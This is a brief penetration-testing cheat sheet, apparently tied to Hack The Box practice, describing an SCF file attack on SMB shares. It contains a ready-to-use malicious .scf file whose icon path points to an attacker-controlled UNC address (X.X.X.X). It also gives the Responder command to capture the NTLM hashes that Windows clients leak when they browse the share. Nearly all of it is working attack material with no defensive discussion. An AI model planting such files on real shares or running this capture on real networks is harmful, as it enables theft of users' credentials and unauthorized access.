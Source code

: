 # SMB share - SCF file Attacks


Name it: 

**@attack.scf**

 ```vim
 [Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
 ```

Start responder and upload @attack.scf

```bash
sudo responder -wrf --lm -I <Interface>
```
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


#smb #driver #htb #responder #windows